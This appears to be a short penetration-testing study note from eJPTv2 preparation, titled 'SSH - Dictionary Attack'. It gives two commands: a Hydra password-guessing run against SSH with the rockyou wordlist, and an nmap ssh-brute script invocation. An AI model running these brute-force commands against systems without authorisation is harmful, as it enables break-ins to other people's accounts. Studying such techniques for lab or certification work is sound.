 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Assessment Methodologies/Enumeration/SSH/SSH|SSH]]"
tools:
  - "[[Hydra]]"
---
```


# SSH - Dictionary Attack

```bash
hydra -l student -P rockyou.txt <ip> ssh
```

```bash
nmap <ip> -p 22 --script ssh-brute --script-args userdb=users.txt
```

